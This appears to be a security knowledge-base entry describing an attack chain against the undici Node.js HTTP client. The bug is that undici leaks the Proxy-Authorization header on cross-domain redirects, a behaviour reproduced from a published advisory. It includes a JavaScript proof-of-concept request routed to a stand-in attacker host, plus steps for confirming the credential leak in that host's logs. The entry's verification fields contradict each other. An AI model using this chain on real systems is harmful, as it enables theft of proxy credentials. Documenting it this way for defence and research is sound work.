

---
tags:
  - information-disclosure
  - header-leakage
  - cross-domain-redirect
  - undici
  - node.js
type: attack_chain
tools:
  - '[[tools/undici]]'
  - '[[tools/requests-python]]'
tactics:
  - '[[Credential Access]]'
verified: false
platforms:
  - Web
  - Node.js
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Review-Undici-Security-Advisory]]'
  - '[[procedures/Execute-Undici-Request-with-Proxy-Authorization]]'
  - '[[procedures/Observe-Header-Leakage-in-Redirect]]'
step_count: 3
techniques:
  - '[[Unsecured Credentials]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:29:28.381Z'
description: >-
  Demonstrates information disclosure by exploiting undici's failure to clear
  Proxy-Authorization headers during cross-domain redirects, leaking proxy
  credentials to attacker-controlled sites.
skill_level: intermediate
impact_level: high
id: 59edc650-d234-4bba-8c12-a66b3e945704
validated: true
mitre_tactics:
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Unsecured Credentials]]'
  - '[[Exploit Public-Facing Application]]'
---
# Proxy-Authorization Header Leakage via Cross-Domain Redirects in Undici

Multi-stage attack chain demonstrating the exploitation of a vulnerability in the undici Node.js HTTP client library, where the Proxy-Authorization header is not cleared during cross-domain redirects, leading to potential leakage of proxy credentials to third-party attacker-controlled sites. This was identified by reviewing the existing advisory GHSA-wqq4-5wpv-mx2g and reproducing the issue with a targeted JavaScript request in undici v6.5.0.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/undici]]
- Node.js environment (v18+ recommended)

### Target Environment

- Node.js application using undici library
- Access to a redirect endpoint (e.g., http://anysite.com/redirect.php) that performs cross-domain redirects
- Attacker-controlled server on port 8182 (e.g., http://attacker.com:8182)

### Initial Access Requirements

- Local Node.js setup
- No specific credentials needed for reproduction, but proxy credentials for realistic testing
- Network access to target redirect site and attacker server

## Detailed Attack Procedures

### Step 1: Review Security Advisory
procedure: [[procedures/Review-Undici-Security-Advisory]]

**Objective**: Understand the existing behavior of undici regarding header clearing in redirects to identify gaps in Proxy-Authorization handling.

**Instructions**: Access and analyze the GitHub security advisory for undici to confirm that only authorization and cookie headers are cleared during cross-domain redirects.

**Expected Output**: Confirmation that Proxy-Authorization is not mentioned or cleared, highlighting the vulnerability.

**Success Indicators**:
- Advisory reviewed and gap identified
- Basis for testing established

### Step 2: Execute Request with Proxy-Authorization Header
procedure: [[procedures/Execute-Undici-Request-with-Proxy-Authorization]]

**Objective**: Send an HTTP request using undici to a cross-domain redirect endpoint, including the Proxy-Authorization header, to trigger the vulnerability.

**Instructions**: Use the undici request function with custom headers and maxRedirections set to 3. Target a redirect URL that points to an attacker-controlled site.

Execute the request using [[commands/undici-redirect-test]]:

```javascript
import { request } from 'undici'
const {
 statusCode,
 headers,
 body
} = await request('http://anysite.com/redirect.php?url=http://attacker.com:8182/vvv',{
 maxRedirections: 3,
 headers: {
 "autHorization": 'tes123t',
 "coOkie": "ddd=dddd",
 "X-CSRF-Token": 't5k3zni6fbdqbnce58zbkh7c4o',
 'Proxy-Authorization':'xxxxxxxx'
 }
})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
 console.log('data', data)
}
```

**Expected Output**: Request completes with status code 200 or redirect success, but headers are forwarded to the attacker site.

**Success Indicators**:
- Request sent successfully
- Redirect chain followed up to 3 times

### Step 3: Observe Header Leakage
procedure: [[procedures/Observe-Header-Leakage-in-Redirect]]

**Objective**: Capture and verify that the Proxy-Authorization header is leaked to the final attacker-controlled URL, unlike cleared headers.

**Instructions**: Monitor the attacker server's logs or use a tool like tcpdump to inspect incoming requests. Confirm presence of Proxy-Authorization while authorization and cookie are absent.

**Expected Output**: Server logs show Proxy-Authorization: xxxxxxxx in the request headers to http://attacker.com:8182/vvv.

**Success Indicators**:
- Proxy-Authorization header present in attacker request
- Other sensitive headers (auth, cookie) cleared

## Attack Chain Summary

### Key Achievements

1. Identified gap in undici's redirect header handling by reviewing advisory.
2. Reproduced leakage of Proxy-Authorization to third-party sites.
3. Demonstrated potential for proxy credential exfiltration in Node.js applications.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unsecured Credentials]] Unsecured Credentials
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Credential Access]] Credential Access

---

*Last updated: 2023-10-01T00:00:00Z*
